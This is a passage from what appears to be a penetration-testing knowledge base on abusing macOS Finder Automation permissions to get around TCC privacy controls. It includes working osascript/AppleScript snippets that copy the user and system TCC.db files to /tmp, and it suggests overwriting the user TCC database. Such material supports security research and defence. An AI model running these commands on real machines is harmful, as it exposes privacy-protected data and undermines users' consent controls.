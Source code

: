 ### Automation (Finder) to FDA\*

The TCC name of the Automation permission is: **`kTCCServiceAppleEvents`**\
This specific TCC permission also indicates the **application that can be managed** inside the TCC database (so the permissions doesn't allow just to manage everything).

**Finder** is an application that **always has FDA** (even if it doesn't appear in the UI), so if you have **Automation** privileges over it, you can abuse its privileges to **make it do some actions**.\
In this case your app would need the permission **`kTCCServiceAppleEvents`** over **`com.apple.Finder`**.

{{#tabs}}
{{#tab name="Steal users TCC.db"}}

```applescript
# This AppleScript will copy the system TCC database into /tmp
osascript<<EOD
tell application "Finder"
    set homeFolder to path to home folder as string
    set sourceFile to (homeFolder & "Library:Application Support:com.apple.TCC:TCC.db") as alias
    set targetFolder to POSIX file "/tmp" as alias
    duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```

{{#endtab}}

{{#tab name="Steal systems TCC.db"}}

```applescript
osascript<<EOD
tell application "Finder"
    set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
    set targetFolder to POSIX file "/tmp" as alias
    duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```

{{#endtab}}
{{#endtabs}}

You could abuse this to **write your own user TCC database**.

> [!WARNING]
> With this permission you will be able to **ask finder to access TCC restricted folders** and give you the files, but afaik you **won't be able to make Finder execute arbitrary code** to fully abuse his FDA access.
>
> Therefore, you won't be able to abuse the full FDA habilities.

This is the TCC prompt to get Automation privileges over Finder:
